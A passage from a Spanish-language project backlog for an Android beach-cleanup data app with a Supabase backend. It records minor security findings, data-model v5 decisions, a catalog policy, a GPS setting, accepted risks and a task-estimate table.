  - [x] `nro_guia_despacho` de 1 a 12 caracteres en la app y la RPC.
  - [ ] 📝 Anotado: evaluar un tope de jornadas por día (o por brigada y día) en la RPC.

### `[ISSUE-61]` 🟡 Hallazgos menores de seguridad — anotados
* La RPC responde `YA_EXISTIA`: permite saber si un ID existe (no revela sus datos).
* Las fotos y los datos (nombres, GPS) quedan en el teléfono después de sincronizar; protegidos por el sandbox de Android, pero nunca se borran. Evaluar borrar las fotos locales tras subirlas.
* `SECURITY DEFINER` con `search_path = public`; lo recomendado es `pg_catalog, public` (riesgo mínimo: `anon` no puede crear objetos).
* Informativo: `gradle.properties` incluye una ruta con el nombre de usuario (ya en ISSUE-28); `proguard-rules.pro` apunta a un paquete inexistente (`data.remote.dto`): si se activa la minificación, la sincronización con Gson fallaría.

## 🧱 Épica 11: Modelo de datos v5 (análisis del 13-11-2026)

> **Criterio de la clienta/desarrollador:** todo dato que se servirá en la planilla, una web o informes vive en tablas con su PK y FK; lo derivado (nombres, listas, totales) se entrega en vistas, no como copias en `jornada`.

### `[ISSUE-62]` ✅ Modelo v5 en Supabase: brigadas por playa, sectores y fotos en tablas, tipos exactos · ~1,5 d
* **Hallazgos:** los sectores de una jornada eran un arreglo `TEXT[]` sin FK; las brigadas, un `CHECK` fijo en el SQL y la app; kg y km en `REAL` (float de 32 bits: `20.1 + 9.3 = 29.399999`); horas en milisegundos (`BIGINT`); GPS sin lectura guardado como (0, 0) (un punto en el golfo de Guinea); fotos como 6 columnas con la URL completa y sin amarrar cada URL a su tipo.
* **Decisiones del 13-11-2026:**
  - `brigada_catalogo` (`id_brigada`, `id_playa` FK, `nombre_brigada`, `is_activo`): cada playa tiene sus brigadas. En la P2 se elige **primero la playa** y luego aparecen sus brigadas. Semilla: PLAYA-01 con Brigadas A–D.
  - `jornada_sector` (`id_registro`, `id_sector`, `area_m2` del momento) **solo en Supabase**; Room sigue con su lista local.
  - `foto_jornada` (`id_registro`, `tipo`, `ruta` o `motivo_omision`): guarda la **ruta** dentro del bucket (`REG-…_1_inicio.jpg`), no la URL; la RPC exige la ruta exacta de cada tipo. Con el bucket público la URL se arma con la ruta (sirve para `=IMAGE()` en Sheets o una página); con bucket privado (ISSUE-40), para URLs firmadas.
  - Se quitan de `jornada` las copias derivadas (`nombre_playa`, `nombre_lider`, `voluntarios_csv`, `total_participantes`, `sectores_csv`, `area_total_m2`): las entrega `vista_jornada` (solo con la clave secreta).
  - `NUMERIC` para kg (7,2) y km (5,2); `kg_totales` columna generada; horas en `TIMESTAMPTZ` (la app sigue enviando milisegundos y la RPC convierte).
  - Coordenada inicial `NULL` cuando no hubo lectura de GPS (también en Room).
  - Índices para las FK y la consulta del inventario: `herramienta_jornada(qr_codigo)`, `jornada(id_playa)`, `jornada(id_brigada)`, `basura_recolectada(id_tipo_basura)`, `jornada_sector(id_sector)`, `brigada_catalogo(id_playa)`.
  - Reinstalación destructiva (`supabase_reset.sql` + esquema) y Room v7 destructiva: aún no hay datos reales.

### `[ISSUE-63]` ✅ Política única de catálogos: "lo que no viene del servidor queda inactivo" · 0,25 d
* **Hallazgo:** playas y sectores se reemplazaban (se borraba lo que el servidor ya no enviaba) y herramientas y tipos de residuo solo se agregaban; un `DELETE` hecho a mano en Supabase dejaba al teléfono ofreciendo algo que la RPC rechaza.
* **Decisión del 13-11-2026:** `is_activo` solo decide qué se muestra en la app; los datos se quedan en la base. Al descargar los catálogos, lo que no viene del servidor se marca inactivo en el teléfono (nunca se borra, para no romper las FK de jornadas locales); si vuelve a venir, se reactiva.

### `[ISSUE-64]` ✅ GPS en alta precisión · 0,1 d
* **Hallazgo:** `PRIORITY_BALANCED_POWER_ACCURACY` se ubica sobre todo por Wi-Fi y antenas (~100 m) y casi no enciende el GPS; como se descartan las lecturas peores que 35 m, en una playa sin Wi-Fi ni datos la jornada probablemente quedaba con 0 km y sin coordenada. El GPS no necesita internet (sin datos solo tarda más la primera posición).
* **Decisión del 13-11-2026:** `PRIORITY_HIGH_ACCURACY`. ⚠️ Medir la batería en el piloto (ISSUE-29, meta < 5 % en 3 h).

### `[ISSUE-65]` 📝 Encargado de pesaje no verificado contra los participantes — con las cuentas (ISSUE-38)
* Ni la app ni la RPC comprueban que `encargado_pesaje` sea uno de los participantes (ISSUE-19). Se resuelve más adelante, cuando existan cuentas.

### `[ISSUE-66]` 📝 Jornada con foto local perdida: sin salida — anotado
* Si el archivo de una foto se pierde antes de sincronizar, la jornada queda en `ERROR_SYNC` y "Reintentar" falla siempre (ya no se puede omitir la foto con un motivo). Evaluar permitir, desde Reportes, convertir esa foto en omitida con motivo.

### Riesgos aceptados (13-11-2026)
* Una jornada pendiente más de 60 días se rechaza para siempre (fecha fuera de rango): se acepta que se pierda.
* Sin sincronización automática (ISSUE-37), los datos solo salen al abrir la P1 con internet; si se pierde el teléfono se pierden las no sincronizadas: se acepta por ahora.

---

## Orden y Estimación

| Orden | Issues | Estimación |
| :--- | :--- | :--- |
| 1 | ISSUE-17 → 18 → 19 | 1,75 d |
| 2 | ISSUE-20 → 21 | 2 d |
| 3 | ISSUE-22, ISSUE-23 | 1,5 d |
| 4 | **ISSUE-31 → 32 → 33 → 34 → 35 → 36** (cambios v4) | 2,75 d |
| 5 | ✅ ISSUE-24 → 25 → 26 | 2,25 d |
| 6 | ISSUE-41 ✅ (UI P1), ISSUE-42 → 28 → 29 | 3,5 d |
| 6b | Seguridad antes del piloto: ISSUE-59, ISSUE-60, ISSUE-58 (parte RPC); luego ISSUE-57 vía ISSUE-38 | ~1 d |
| 6c | Modelo v5: ISSUE-62 → 63 → 64 | ~2 d |
| 7 | ISSUE-37, ISSUE-27 (Sheets), ISSUE-38, ISSUE-43 (catálogos, por decidir) | 1,75 d |
| **Total** | | **≈ 16 días** |

